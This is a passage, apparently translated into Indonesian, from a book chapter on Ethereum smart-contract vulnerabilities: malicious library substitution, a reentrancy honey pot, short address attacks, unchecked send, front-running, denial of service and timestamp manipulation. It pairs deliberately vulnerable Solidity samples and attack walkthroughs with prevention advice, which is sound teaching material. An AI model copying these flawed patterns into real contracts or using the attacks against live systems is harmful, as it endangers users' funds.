Jika alamat dari salah satu kontrak ini diberikan di konstruktor, fungsi `encryptPrivateData` akan menghasilkan *event* yang mencetak data pribadi yang tidak terenkripsi.

Meskipun dalam contoh ini kontrak seperti pustaka diatur di konstruktor, seringkali pengguna yang memiliki hak istimewa (seperti `owner`) dapat mengubah alamat kontrak pustaka. Jika kontrak yang ditautkan tidak berisi fungsi yang dipanggil, fungsi *fallback* akan dieksekusi. Misalnya, dengan baris `encryptionLibrary.rot13Encrypt()`, jika kontrak yang ditentukan oleh `encryptionLibrary` adalah:

```solidity
1 contract Blank {
2   event Print(string text);
3   function () public {
4     emit Print("Here");
5     // letakkan kode jahat di sini dan itu akan berjalan
6   }
7 }
```

maka sebuah *event* dengan teks `Here` akan dipancarkan. Jadi, jika pengguna dapat mengubah pustaka kontrak, mereka pada prinsipnya dapat membuat pengguna lain tanpa sadar menjalankan kode sewenang-wenang.

> Kontrak yang disajikan di sini hanya untuk tujuan demonstrasi dan tidak mewakili enkripsi yang sebenarnya. Mereka tidak boleh digunakan untuk enkripsi.

##### Teknik Pencegahan

Seperti yang ditunjukkan sebelumnya, kontrak yang aman dapat (dalam beberapa kasus) diterapkan sedemikian rupa sehingga berperilaku jahat. Seorang auditor dapat secara publik memverifikasi sebuah kontrak dan meminta pemiliknya menyebarkannya dengan cara yang jahat, menghasilkan kontrak yang diaudit secara publik yang memiliki kerentanan atau niat jahat.

Ada sejumlah teknik yang mencegah skenario ini.

Satu teknik adalah menggunakan kata kunci `new` untuk membuat kontrak. Dalam contoh sebelumnya, konstruktor dapat ditulis sebagai:

```solidity
constructor() public {
  encryptionLibrary = new Rot13Encryption();
}
```

Dengan cara ini, instansi dari kontrak yang direferensikan dibuat pada saat penyebaran, dan penyebar tidak dapat mengganti kontrak `Rot13Encryption` tanpa mengubahnya.

Solusi lain adalah dengan melakukan *hardcode* alamat kontrak eksternal.

Secara umum, kode yang memanggil kontrak eksternal harus selalu diaudit dengan cermat. Sebagai pengembang, saat mendefinisikan kontrak eksternal, bisa menjadi ide yang baik untuk membuat alamat kontrak menjadi `public` (yang tidak terjadi dalam contoh *honey-pot* di bagian berikut) untuk memungkinkan pengguna dengan mudah memeriksa kode yang direferensikan oleh kontrak. Sebaliknya, jika sebuah kontrak memiliki alamat kontrak variabel `private`, itu bisa menjadi tanda seseorang berperilaku jahat (seperti yang ditunjukkan dalam contoh dunia nyata). Jika seorang pengguna dapat mengubah alamat kontrak yang digunakan untuk memanggil fungsi eksternal, penting (dalam konteks sistem terdesentralisasi) untuk mengimplementasikan kunci-waktu (*time-lock*) dan/atau mekanisme pemungutan suara untuk memungkinkan pengguna melihat kode apa yang diubah, atau untuk memberi peserta kesempatan untuk ikut/tidak ikut dengan alamat kontrak baru.

##### Contoh Dunia Nyata: Reentrancy Honey Pot

Sejumlah *honey pot* baru-baru ini dirilis di *mainnet*. Kontrak-kontrak ini mencoba mengakali peretas Ethereum yang mencoba mengeksploitasi kontrak, tetapi yang pada gilirannya akhirnya kehilangan ether ke kontrak yang mereka harapkan untuk dieksploitasi. Satu contoh menggunakan serangan ini dengan mengganti kontrak yang diharapkan dengan yang jahat di konstruktor. Kodenya dapat ditemukan di sini:

```solidity
1 pragma solidity ^0.4.19;
2
3 contract Private_Bank
4 {
5   mapping (address => uint) public balances;
6   uint public MinDeposit = 1 ether;
7   Log TransferLog;
8
9   constructor(address _log) public
10  {
11    TransferLog = Log(_log);
12  }
13
14  function Deposit()
15    public
16    payable
17  {
18    if(msg.value >= MinDeposit)
19    {
20      balances[msg.sender]+=msg.value;
21      TransferLog.AddMessage(msg.sender,msg.value,"Deposit");
22    }
23  }
24
25  function CashOut(uint _am) public
26  {
27    if(_am<=balances[msg.sender])
28    {
29      if(msg.sender.call.value(_am)())
30      {
31        balances[msg.sender]-=_am;
32        TransferLog.AddMessage(msg.sender,_am,"CashOut");
33      }
34    }
35  }
36
37  function() public payable{}
38
39 }
40
41 contract Log
42 {
43  struct Message
44  {
45    address Sender;
46    string Data;
47    uint Val;
48    uint Time;
49  }
50
51  Message[] public History;
52  Message LastMsg;
53
54  function AddMessage(address _adr,uint _val,string memory _data)
55    public
56  {
57    LastMsg.Sender = _adr;
58    LastMsg.Time = now;
59    LastMsg.Val = _val;
60    LastMsg.Data = _data;
61    History.push(LastMsg);
62  }
63 }
```

Postingan ini oleh seorang pengguna reddit menjelaskan bagaimana mereka kehilangan 1 ether ke kontrak ini dengan mencoba mengeksploitasi *bug reentrancy* yang mereka harapkan ada di dalam kontrak.

### Serangan Alamat/Parameter Pendek

Serangan ini tidak dilakukan pada kontrak Solidity itu sendiri, tetapi pada aplikasi pihak ketiga yang mungkin berinteraksi dengannya. Bagian ini ditambahkan untuk kelengkapan dan untuk memberi pembaca kesadaran tentang bagaimana parameter dapat dimanipulasi dalam kontrak.

Untuk bacaan lebih lanjut, lihat “Serangan Alamat Pendek ERC20 Dijelaskan”, “Kerentanan Kontrak Pintar ICO: Serangan Alamat Pendek”, atau postingan Reddit ini.

##### Kerentanan

Saat meneruskan parameter ke kontrak pintar, parameter dikodekan sesuai dengan spesifikasi ABI. Dimungkinkan untuk mengirim parameter yang dikodekan yang lebih pendek dari panjang parameter yang diharapkan (misalnya, mengirim alamat yang hanya 38 karakter heksadesimal (19 byte) alih-alih 40 karakter heksadesimal standar (20 byte)). Dalam skenario seperti itu, **EVM akan menambahkan nol di akhir parameter yang dikodekan** untuk mencapai panjang yang diharapkan.

Ini menjadi masalah ketika aplikasi pihak ketiga tidak memvalidasi input. Contoh paling jelas adalah bursa yang tidak memverifikasi alamat token ERC20 saat pengguna meminta penarikan. Contoh ini dibahas lebih detail di postingan Peter Vessenes, “Serangan Alamat Pendek ERC20 Dijelaskan”.

Pertimbangkan antarmuka fungsi `transfer` ERC20 standar, perhatikan urutan parameternya:

```solidity
function transfer(address to, uint tokens) public returns (bool success);
```

Sekarang pertimbangkan bursa yang memegang sejumlah besar token (katakanlah REP) dan seorang pengguna yang ingin menarik bagian mereka sebesar 100 token. Pengguna akan mengirimkan alamat mereka, `0xdeaddeaddeaddeaddeaddeaddeaddeaddeaddead`, dan jumlah token, `100`. Bursa akan mengkodekan parameter ini dalam urutan yang ditentukan oleh fungsi `transfer`; yaitu, alamat lalu token. Hasil yang dikodekan akan menjadi:

```
a9059cbb000000000000000000000000deaddeaddeaddeaddeaddeaddeaddeaddeaddead00000000000000000000000000000000000000000000000056bc75e2d63100000
```

4 byte pertama (`a9059cbb`) adalah tanda tangan/selektor fungsi `transfer`, 32 byte berikutnya adalah alamat, dan 32 byte terakhir mewakili jumlah token `uint256`. Perhatikan bahwa heksadesimal `56bc75e2d63100000` di akhir sesuai dengan 100 token (dengan 18 desimal, seperti yang ditentukan oleh kontrak token REP).

Sekarang mari kita lihat apa yang akan terjadi jika seseorang mengirim alamat yang kekurangan 1 byte (2 digit heksadesimal). Secara spesifik, katakanlah seorang penyerang mengirim `0xdeaddeaddeaddeaddeaddeaddeaddeaddeaddeadde` sebagai alamat (kekurangan dua digit terakhir) dan 100 token yang sama untuk ditarik. Jika bursa tidak memvalidasi input ini, itu akan dikodekan sebagai:

```
a9059cbb000000000000000000000000deaddeaddeaddeaddeaddeaddeaddeaddeaddeadde00000000000000000000000000000000000000000000000056bc75e2d6310000000
```

Perbedaannya halus. Perhatikan bahwa `00` telah ditambahkan di akhir pengkodean, untuk menutupi alamat pendek yang dikirim. Ketika ini dikirim ke kontrak pintar, parameter alamat akan dibaca sebagai `0xdeaddeaddeaddeaddeaddeaddeaddeaddeaddeadde00` dan nilainya akan dibaca sebagai `56bc75e2d6310000000` (perhatikan dua `0` tambahan). Nilai ini sekarang menjadi **25600** token (nilainya telah dikalikan dengan 256). Dalam contoh ini, jika bursa memiliki token sebanyak itu, pengguna akan menarik 25600 token (sementara bursa mengira pengguna hanya menarik 100) ke alamat yang dimodifikasi. Jelas penyerang tidak akan memiliki alamat yang dimodifikasi dalam contoh ini, tetapi jika penyerang menghasilkan alamat apa pun yang berakhir dengan 0 (yang dapat dengan mudah di-*brute-force*) dan menggunakan alamat yang dihasilkan ini, mereka dapat mencuri token dari bursa yang tidak curiga.

##### Teknik Pencegahan

Semua parameter input di aplikasi eksternal harus divalidasi sebelum mengirimkannya ke blockchain. Perlu juga dicatat bahwa urutan parameter memainkan peran penting di sini. Karena *padding* hanya terjadi di akhir, urutan parameter yang cermat dalam kontrak pintar dapat mengurangi beberapa bentuk serangan ini.

### Nilai Kembali CALL yang Tidak Diperiksa

Ada sejumlah cara untuk melakukan panggilan eksternal di Solidity. Mengirim ether ke akun eksternal biasanya dilakukan melalui metode `transfer`. Namun, fungsi `send` juga dapat digunakan, dan untuk panggilan eksternal yang lebih serbaguna, *opcode* `CALL` dapat digunakan secara langsung di Solidity. Fungsi `call` dan `send` mengembalikan nilai Boolean yang menunjukkan apakah panggilan berhasil atau gagal. Jadi, fungsi-fungsi ini memiliki peringatan sederhana, yaitu transaksi yang mengeksekusi fungsi-fungsi ini **tidak akan gagal (*revert*)** jika panggilan eksternal (diinisialisasi oleh `call` atau `send`) gagal; sebaliknya, fungsi-fungsi tersebut hanya akan mengembalikan `false`. Kesalahan umum adalah pengembang mengharapkan kegagalan terjadi jika panggilan eksternal gagal, dan tidak memeriksa nilai kembali.

Untuk bacaan lebih lanjut, lihat \#4 di DASP Top 10 2018 dan “Memindai Kontrak Ethereum Langsung untuk Bug ‘Unchecked-Send’”.

##### Kerentanan

Pertimbangkan contoh berikut:

```solidity
1 contract Lotto {
2
3   bool public payedOut = false;
4   address public winner;
5   uint public winAmount;
6
7   // ... fungsionalitas tambahan di sini
8
9   function sendToWinner() public {
10    require(!payedOut);
11    winner.send(winAmount);
12    payedOut = true;
13  }
14
15  function withdrawLeftOver() public {
16    require(payedOut);
17    msg.sender.send(address(this).balance);
18  }
19 }
```

Ini merepresentasikan kontrak seperti Lotto, di mana seorang pemenang menerima `winAmount` ether, yang biasanya menyisakan sedikit sisa untuk ditarik siapa pun.

Kerentanannya ada di baris 11, di mana `send` digunakan tanpa memeriksa responsnya. Dalam contoh sepele ini, pemenang yang transaksinya gagal (baik karena kehabisan gas atau karena menjadi kontrak yang sengaja melempar kesalahan di fungsi *fallback*) memungkinkan `payedOut` diatur menjadi `true` terlepas dari apakah ether dikirim atau tidak. Dalam kasus ini, siapa pun dapat menarik kemenangan pemenang melalui fungsi `withdrawLeftOver`.

##### Teknik Pencegahan

Bila memungkinkan, gunakan fungsi `transfer` daripada `send`, karena `transfer` akan gagal (*revert*) jika transaksi eksternal gagal. Jika `send` diperlukan, **selalu periksa nilai kembalinya.**

Rekomendasi yang lebih kuat adalah mengadopsi **pola penarikan (*withdrawal pattern*)**. Dalam solusi ini, setiap pengguna harus memanggil fungsi `withdraw` yang terisolasi yang menangani pengiriman ether keluar dari kontrak dan menangani konsekuensi dari transaksi `send` yang gagal. Idenya adalah untuk secara logis mengisolasi fungsionalitas `send` eksternal dari sisa basis kode, dan menempatkan beban transaksi yang berpotensi gagal pada pengguna akhir yang memanggil fungsi `withdraw`.

##### Contoh Dunia Nyata: Etherpot dan King of the Ether

Etherpot adalah lotre kontrak pintar, tidak terlalu berbeda dari contoh kontrak yang disebutkan sebelumnya. Kejatuhan kontrak ini terutama disebabkan oleh penggunaan hash blok yang salah (hanya 256 hash blok terakhir yang dapat digunakan; lihat postingan Aakil Fernandes tentang bagaimana Etherpot gagal memperhitungkan ini dengan benar). Namun, kontrak ini juga menderita nilai panggilan yang tidak diperiksa. Pertimbangkan fungsi `cash` di Contoh 9-9.

**Contoh 9-9. lotto.sol: Cuplikan kode**

```solidity
1 ...
2
3 function cash(uint roundIndex, uint subpotIndex){
4
5   var subpotsCount = getSubpotsCount(roundIndex);
6
7   if(subpotIndex>=subpotsCount)
8     return;
9
10  var decisionBlockNumber = getDecisionBlockNumber(roundIndex,subpotIndex);
11
12  if(decisionBlockNumber>block.number)
13    return;
14
15  if(rounds[roundIndex].isCashed[subpotIndex])
16    return;
17    //Subpot hanya bisa dicairkan sekali. Ini untuk mencegah pembayaran ganda
18
19  var winner = calculateWinner(roundIndex,subpotIndex);
20  var subpot = getSubpot(roundIndex);
21
22  winner.send(subpot);
23
24  rounds[roundIndex].isCashed[subpotIndex] = true;
25    //Tandai putaran sebagai sudah dicairkan
26 }
27 ...
```

Perhatikan bahwa pada baris 22, nilai kembali dari fungsi `send` tidak diperiksa, dan baris berikutnya kemudian menetapkan Boolean yang menunjukkan bahwa pemenang telah dikirimi dana mereka. *Bug* ini dapat memungkinkan keadaan di mana pemenang tidak menerima ether mereka, tetapi keadaan kontrak dapat menunjukkan bahwa pemenang telah dibayar.

Versi yang lebih serius dari *bug* ini terjadi di King of the Ether. Post-mortem yang sangat baik dari kontrak ini telah ditulis yang merinci bagaimana `send` yang gagal dan tidak diperiksa dapat digunakan untuk menyerang kontrak.

### Kondisi Balapan/Front Running

Kombinasi panggilan eksternal ke kontrak lain dan sifat multi-pengguna dari blockchain yang mendasarinya menimbulkan berbagai potensi jebakan Solidity di mana pengguna berlomba dalam eksekusi kode untuk mendapatkan keadaan yang tidak terduga. *Reentrancy* (dibahas sebelumnya di bab ini) adalah salah satu contoh dari kondisi balapan semacam itu. Di bagian ini kita akan membahas jenis kondisi balapan lain yang dapat terjadi di blockchain Ethereum. Ada berbagai postingan bagus tentang subjek ini, termasuk “Kondisi Balapan” di Wiki Ethereum, \#7 di DASP Top10 2018, dan Praktik Terbaik Kontrak Pintar Ethereum.

##### Kerentanan

Seperti kebanyakan blockchain, *node* Ethereum mengumpulkan transaksi dan membentuknya menjadi blok. Transaksi hanya dianggap valid setelah seorang penambang menyelesaikan mekanisme konsensus (saat ini Ethash PoW untuk Ethereum). Penambang yang menyelesaikan blok juga memilih transaksi mana dari kumpulan yang akan dimasukkan ke dalam blok, biasanya diurutkan berdasarkan `gasPrice` dari setiap transaksi. Berikut adalah vektor serangan potensial. Seorang penyerang dapat mengamati kumpulan transaksi untuk transaksi yang mungkin berisi solusi untuk masalah, dan memodifikasi atau mencabut izin pemecah atau mengubah keadaan dalam kontrak yang merugikan pemecah. Penyerang kemudian bisa mendapatkan data dari transaksi ini dan membuat transaksi mereka sendiri dengan `gasPrice` yang lebih tinggi sehingga transaksi mereka dimasukkan ke dalam blok sebelum yang asli.

Mari kita lihat bagaimana ini bisa bekerja dengan contoh sederhana. Pertimbangkan kontrak yang ditunjukkan pada Contoh 9-10.

**Contoh 9-10. FindThisHash.sol**

```solidity
1 contract FindThisHash {
2
3   bytes32 constant public hash =
4     0xb5b5b97fafd9855eec9b41f74dfb6c38f5951141f9a3ecd7f44d5479b630ee0a;
5
6   constructor() public payable {} // isi dengan ether
7
8   function solve(string memory solution) public {
9     // Jika Anda dapat menemukan pre-image dari hash, terima 1000 ether
10    require(hash == sha3(bytes(solution)));
11    msg.sender.transfer(1000 ether);
12  }
13 }
```

Katakanlah kontrak ini berisi 1.000 ether. Pengguna yang dapat menemukan *pre-image* dari hash SHA-3 berikut:
`0xb5b5b97fafd9855eec9b41f74dfb6c38f5951141f9a3ecd7f44d5479b630ee0a`
dapat mengirimkan solusi dan mengambil 1.000 ether. Katakanlah seorang pengguna menemukan solusinya adalah `Ethereum!`. Mereka memanggil `solve` dengan `Ethereum!` sebagai parameter. Sayangnya, seorang penyerang cukup pintar untuk mengamati kumpulan transaksi untuk siapa pun yang mengirimkan solusi. Mereka melihat solusi ini, memeriksa validitasnya, dan kemudian mengirimkan transaksi yang setara dengan `gasPrice` yang jauh lebih tinggi daripada transaksi asli. Penambang yang menyelesaikan blok kemungkinan akan memberikan preferensi kepada penyerang karena `gasPrice` yang lebih tinggi, dan menambang transaksi mereka sebelum transaksi pemecah asli. Penyerang akan mengambil 1.000 ether, dan pengguna yang memecahkan masalah tidak akan mendapatkan apa-apa. Perlu diingat bahwa dalam jenis kerentanan “*front-running*” ini, penambang secara unik terinsentif untuk menjalankan serangan itu sendiri (atau dapat disuap untuk menjalankan serangan ini dengan biaya yang luar biasa). Kemungkinan penyerang menjadi penambang itu sendiri tidak boleh diremehkan.

##### Teknik Pencegahan

Ada dua kelas aktor yang dapat melakukan serangan *front-running* semacam ini: pengguna (yang memodifikasi `gasPrice` dari transaksi mereka) dan penambang itu sendiri (yang dapat menyusun ulang transaksi dalam satu blok sesuka mereka). Kontrak yang rentan terhadap kelas pertama (pengguna) jauh lebih buruk daripada yang rentan terhadap yang kedua (penambang), karena penambang hanya dapat melakukan serangan ketika mereka menyelesaikan sebuah blok, yang tidak mungkin bagi penambang individu mana pun yang menargetkan blok tertentu. Di sini kami akan mencantumkan beberapa tindakan mitigasi relatif terhadap kedua kelas penyerang.

Satu metode adalah dengan menempatkan batas atas pada `gasPrice`. Ini mencegah pengguna menaikkan `gasPrice` dan mendapatkan urutan transaksi preferensial di luar batas atas. Tindakan ini hanya menjaga dari kelas penyerang pertama (pengguna sewenang-wenang). Penambang dalam skenario ini masih dapat menyerang kontrak, karena mereka dapat memesan transaksi di blok mereka sesuka mereka, terlepas dari harga gas.

Metode yang lebih kuat adalah dengan menggunakan **skema *commit–reveal***. Skema semacam itu menentukan bahwa pengguna mengirim transaksi dengan informasi tersembunyi (biasanya hash). Setelah transaksi dimasukkan ke dalam blok, pengguna mengirim transaksi yang mengungkapkan data yang dikirim (fase pengungkapan). Metode ini mencegah baik penambang maupun pengguna dari *front-running* transaksi, karena mereka tidak dapat menentukan isi transaksi. Metode ini, bagaimanapun, tidak dapat menyembunyikan nilai transaksi (yang dalam beberapa kasus merupakan informasi berharga yang perlu disembunyikan). Kontrak pintar ENS memungkinkan pengguna untuk mengirim transaksi yang data komitmennya mencakup jumlah ether yang bersedia mereka belanjakan. Pengguna kemudian dapat mengirim transaksi dengan nilai sewenang-wenang. Selama fase pengungkapan, pengguna dikembalikan selisih antara jumlah yang dikirim dalam transaksi dan jumlah yang bersedia mereka belanjakan.

Saran lebih lanjut oleh Lorenz Breidenbach, Phil Daian, Ari Juels, dan Florian Tramèr adalah menggunakan “**pengiriman kapal selam (*submarine sends*)**”. Implementasi yang efisien dari ide ini membutuhkan *opcode* `CREATE2`, yang saat ini belum diadopsi tetapi tampaknya akan ada di *hard fork* mendatang.

##### Contoh Dunia Nyata: ERC20 dan Bancor

Standar ERC20 cukup terkenal untuk membangun token di Ethereum. Standar ini memiliki potensi kerentanan *front-running* yang muncul karena fungsi `approve`. Mikhail Vladimirov dan Dmitry Khovratovich telah menulis penjelasan yang baik tentang kerentanan ini (dan cara-cara untuk mengurangi serangan).

Standar menetapkan fungsi `approve` sebagai:

```solidity
function approve(address _spender, uint256 _value) returns (bool success)
```

Fungsi ini memungkinkan pengguna untuk mengizinkan pengguna lain mentransfer token atas nama mereka. Kerentanan *front-running* terjadi dalam skenario di mana pengguna Alice menyetujui temannya Bob untuk membelanjakan 100 token. Alice kemudian memutuskan bahwa dia ingin mencabut persetujuan Bob untuk membelanjakan, katakanlah, 100 token, jadi dia membuat transaksi yang menetapkan alokasi Bob menjadi 50 token. Bob, yang telah dengan cermat mengamati rantai, melihat transaksi ini dan membangun transaksinya sendiri yang membelanjakan 100 token. Dia menempatkan `gasPrice` yang lebih tinggi pada transaksinya daripada milik Alice, sehingga transaksinya diprioritaskan di atas miliknya. Beberapa implementasi `approve` akan memungkinkan Bob untuk mentransfer 100 tokennya dan kemudian, ketika transaksi Alice dikomit, mengatur ulang persetujuan Bob menjadi 50 token, yang secara efektif memberi Bob akses ke 150 token.

Contoh dunia nyata terkemuka lainnya adalah Bancor. Ivan Bogatyy dan timnya mendokumentasikan serangan yang menguntungkan pada implementasi awal Bancor. Postingan blog dan pembicaraannya di DevCon3 membahas secara rinci bagaimana ini dilakukan. Pada dasarnya, harga token ditentukan berdasarkan nilai transaksi; pengguna dapat mengamati kumpulan transaksi untuk transaksi Bancor dan melakukan *front-run* untuk mendapatkan keuntungan dari perbedaan harga. Serangan ini telah diatasi oleh tim Bancor.

### Denial of Service (DoS)

Kategori ini sangat luas, tetapi pada dasarnya terdiri dari serangan di mana pengguna dapat membuat kontrak tidak dapat dioperasikan untuk jangka waktu tertentu, atau dalam beberapa kasus secara permanen. Ini dapat menjebak ether di dalam kontrak-kontrak ini selamanya, seperti yang terjadi pada “Contoh Dunia Nyata: Dompet Multisig Parity (Peretasan Kedua)” di halaman 189.

##### Kerentanan

Ada berbagai cara sebuah kontrak bisa menjadi tidak dapat dioperasikan. Di sini kami hanya menyoroti beberapa pola pengkodean Solidity yang kurang jelas yang dapat menyebabkan kerentanan DoS:

  * **Perulangan melalui pemetaan atau larik yang dimanipulasi secara eksternal**
    Pola ini biasanya muncul ketika seorang pemilik ingin mendistribusikan token kepada investor dengan fungsi seperti `distribute`, seperti dalam contoh kontrak ini:

    ```solidity
    1 contract DistributeTokens {
    2   address public owner; // diatur di suatu tempat
    3   address[] investors; // larik investor
    4   uint[] investorTokens; // jumlah token yang didapat setiap investor
    5
    6   // ... fungsionalitas tambahan, termasuk transfertoken()
    7
    8   function invest() public payable {
    9     investors.push(msg.sender);
    10    investorTokens.push(msg.value * 5); // 5 kali wei yang dikirim
    11  }
    12
    13  function distribute() public {
    14    require(msg.sender == owner); // hanya pemilik
    15    for(uint i = 0; i < investors.length; i++) {
    16      // di sini transferToken(to,amount) mentransfer "amount"
    17      // token ke alamat "to"
    18      transferToken(investors[i],investorTokens[i]);
    19    }
    20  }
    21 }
    ```

    Perhatikan bahwa perulangan dalam kontrak ini berjalan di atas sebuah larik yang dapat digelembungkan secara artifisial. Seorang penyerang dapat membuat banyak akun pengguna, membuat larik `investor` menjadi besar. Pada prinsipnya, ini dapat dilakukan sedemikian rupa sehingga gas yang dibutuhkan untuk mengeksekusi perulangan `for` melebihi batas gas blok, yang pada dasarnya membuat fungsi `distribute` tidak dapat dioperasikan.

  * **Operasi pemilik**
    Pola umum lainnya adalah di mana pemilik memiliki hak istimewa khusus dalam kontrak dan harus melakukan beberapa tugas agar kontrak dapat melanjutkan ke keadaan berikutnya. Salah satu contohnya adalah kontrak Initial Coin Offering (ICO) yang mengharuskan pemilik untuk menyelesaikan kontrak, yang kemudian memungkinkan token dapat ditransfer. Sebagai contoh:

    ```solidity
    1 bool public isFinalized = false;
    2 address public owner; // diatur di suatu tempat
    3
    4 function finalize() public {
    5   require(msg.sender == owner);
    6   isFinalized = true; // Seharusnya ==, bukan =
    7 }
    8
    9 // ... fungsionalitas ICO tambahan
    10
    11 // fungsi transfer yang dibebani
    12 function transfer(address _to, uint _value) public returns (bool) {
    13   require(isFinalized);
    14   super.transfer(_to,_value);
    15 }
    16
    17 ...
    ```

    Dalam kasus seperti itu, jika pengguna yang memiliki hak istimewa kehilangan kunci privatnya atau menjadi tidak aktif, seluruh kontrak token menjadi tidak dapat dioperasikan. Dalam kasus ini, jika pemilik tidak dapat memanggil `finalize`, tidak ada token yang dapat ditransfer; seluruh operasi ekosistem token bergantung pada satu alamat.

  * **Memajukan keadaan berdasarkan panggilan eksternal**
    Kontrak kadang-kadang ditulis sedemikian rupa sehingga untuk maju ke keadaan baru, diperlukan pengiriman ether ke sebuah alamat, atau menunggu beberapa input dari sumber eksternal. Pola-pola ini dapat menyebabkan serangan DoS ketika panggilan eksternal gagal atau dicegah karena alasan eksternal. Dalam contoh pengiriman ether, seorang pengguna dapat membuat kontrak yang tidak menerima ether. Jika sebuah kontrak memerlukan ether untuk ditarik agar dapat maju ke keadaan baru (pertimbangkan kontrak pengunci-waktu yang mengharuskan semua ether ditarik sebelum dapat digunakan kembali), kontrak tersebut tidak akan pernah mencapai keadaan baru, karena ether tidak akan pernah bisa dikirim ke kontrak pengguna yang tidak menerima ether.

##### Teknik Pencegahan

Dalam contoh pertama, kontrak tidak boleh melakukan perulangan melalui struktur data yang dapat dimanipulasi secara artifisial oleh pengguna eksternal. **Pola penarikan** direkomendasikan, di mana setiap investor memanggil fungsi `withdraw` untuk mengklaim token secara independen.

Dalam contoh kedua, pengguna yang memiliki hak istimewa diperlukan untuk mengubah keadaan kontrak. Dalam contoh seperti itu, sebuah **pengaman (*failsafe*)** dapat digunakan jika pemilik menjadi tidak mampu. Salah satu solusinya adalah membuat pemilik menjadi kontrak multisig. Solusi lain adalah menggunakan **kunci-waktu**: dalam contoh yang diberikan, `require` di baris 13 dapat menyertakan mekanisme berbasis waktu, seperti `require(msg.sender == owner || now > unlockTime)`, yang memungkinkan setiap pengguna untuk menyelesaikan setelah periode waktu yang ditentukan oleh `unlockTime`.

Teknik mitigasi semacam ini juga dapat digunakan dalam contoh ketiga. Jika panggilan eksternal diperlukan untuk maju ke keadaan baru, perhitungkan kemungkinan kegagalannya dan berpotensi tambahkan kemajuan keadaan berbasis waktu jika panggilan yang diinginkan tidak pernah datang.

> Tentu saja, ada alternatif terpusat untuk saran-saran ini: seseorang dapat menambahkan `maintenanceUser` yang dapat datang dan memperbaiki masalah dengan vektor serangan berbasis DoS jika diperlukan. Biasanya, kontrak semacam ini memiliki masalah kepercayaan, karena kekuatan entitas semacam itu.

##### Contoh Dunia Nyata: GovernMental

GovernMental adalah skema Ponzi lama yang mengumpulkan sejumlah besar ether (1.100 ether, pada satu titik). Sayangnya, skema ini rentan terhadap kerentanan DoS yang disebutkan di bagian ini. Sebuah postingan Reddit oleh etherik menjelaskan bagaimana kontrak tersebut memerlukan penghapusan *mapping* besar untuk menarik ether. Penghapusan *mapping* ini memiliki biaya gas yang melebihi batas gas blok pada saat itu, dan dengan demikian tidak mungkin untuk menarik 1.100 ether tersebut. Alamat kontraknya adalah `0xF45717552f12Ef7cb65e95476F217Ea008167Ae3`, dan Anda dapat melihat dari transaksi `0x0d80d67202bd9cb6773df8dd2020e7190a1b0793e8ec4fc105257e8128f0506b` bahwa 1.100 ether tersebut akhirnya diperoleh dengan transaksi yang menggunakan 2,5 juta gas (ketika batas gas blok telah cukup naik untuk memungkinkan transaksi semacam itu).

### Manipulasi Stempel Waktu Blok

Stempel waktu blok (*block timestamps*) secara historis telah digunakan untuk berbagai aplikasi, seperti entropi untuk angka acak (lihat “Ilusi Entropi” di halaman 193 untuk detail lebih lanjut), mengunci dana untuk periode waktu tertentu, dan berbagai pernyataan kondisional pengubah keadaan yang bergantung pada waktu. Penambang memiliki kemampuan untuk sedikit menyesuaikan stempel waktu, yang dapat terbukti berbahaya jika stempel waktu blok digunakan secara tidak benar dalam kontrak pintar.

Referensi yang berguna untuk ini termasuk dokumentasi Solidity dan pertanyaan Joris Bontje di Ethereum Stack Exchange tentang topik ini.

##### Kerentanan

`block.timestamp` dan aliasnya `now` dapat dimanipulasi oleh penambang jika mereka memiliki insentif untuk melakukannya. Mari kita buat permainan sederhana, yang ditunjukkan pada Contoh 9-11, yang akan rentan terhadap eksploitasi oleh penambang.

**Contoh 9-11. roulette.sol**

```solidity
1 contract Roulette {
2   uint public pastBlockTime; // memaksa satu taruhan per blok
3
4   constructor() public payable {} // mendanai kontrak pada awalnya
5
6   // fungsi fallback digunakan untuk membuat taruhan
7   function () public payable {
8     require(msg.value == 10 ether); // harus mengirim 10 ether untuk bermain
9     require(now != pastBlockTime); // hanya 1 transaksi per blok
10    pastBlockTime = now;
11    if(now % 15 == 0) { // pemenang
12      msg.sender.transfer(address(this).balance);
13    }
14  }
15 }
```

Kontrak ini berperilaku seperti lotre sederhana. Satu transaksi per blok dapat bertaruh 10 ether untuk kesempatan memenangkan saldo kontrak. Asumsinya di sini adalah bahwa dua digit terakhir dari `block.timestamp` terdistribusi secara seragam. Jika itu masalahnya, akan ada peluang 1 banding 15 untuk memenangkan lotre ini.

Namun, seperti yang kita tahu, penambang dapat menyesuaikan stempel waktu jika mereka perlu. Dalam kasus khusus ini, jika cukup banyak ether terkumpul di dalam kontrak, seorang penambang yang menyelesaikan sebuah blok akan terinsentif untuk memilih stempel waktu sedemikian rupa sehingga `block.timestamp` atau `now` modulo 15 adalah 0. Dengan melakukan itu, mereka dapat memenangkan ether yang terkunci di kontrak ini bersama dengan hadiah blok. Karena hanya satu orang yang diizinkan bertaruh per blok, ini juga rentan terhadap serangan *front-running* (lihat “Kondisi Balapan/Front Running” di halaman 204 untuk detail lebih lanjut).

Dalam praktiknya, stempel waktu blok meningkat secara monoton sehingga penambang tidak dapat memilih stempel waktu blok secara sewenang-wenang (harus lebih lambat dari pendahulunya). Mereka juga terbatas dalam menetapkan waktu blok yang tidak terlalu jauh di masa depan, karena blok-blok ini kemungkinan akan ditolak oleh jaringan (*node* tidak akan memvalidasi blok yang stempel waktunya di masa depan).

##### Teknik Pencegahan

Stempel waktu blok tidak boleh digunakan untuk entropi atau menghasilkan angka acak—yaitu, mereka tidak boleh menjadi faktor penentu (baik secara langsung maupun melalui beberapa turunan) untuk memenangkan permainan atau mengubah keadaan penting.

Logika yang sensitif terhadap waktu terkadang diperlukan; mis., untuk membuka kunci kontrak (penguncian waktu), menyelesaikan ICO setelah beberapa minggu, atau memberlakukan tanggal kedaluwarsa. Terkadang direkomendasikan untuk menggunakan `block.number` dan waktu blok rata-rata untuk memperkirakan waktu; dengan waktu blok 10 detik, 1 minggu setara dengan sekitar 60.480 blok. Dengan demikian, menentukan nomor blok di mana suatu keadaan kontrak harus berubah bisa lebih aman, karena penambang tidak dapat dengan mudah memanipulasi nomor blok. Kontrak ICO BAT menggunakan strategi ini.

Ini bisa jadi tidak perlu jika kontrak tidak terlalu peduli dengan manipulasi stempel waktu blok oleh penambang, tetapi ini adalah sesuatu yang perlu diwaspadai saat mengembangkan kontrak.

##### Contoh Dunia Nyata: GovernMental

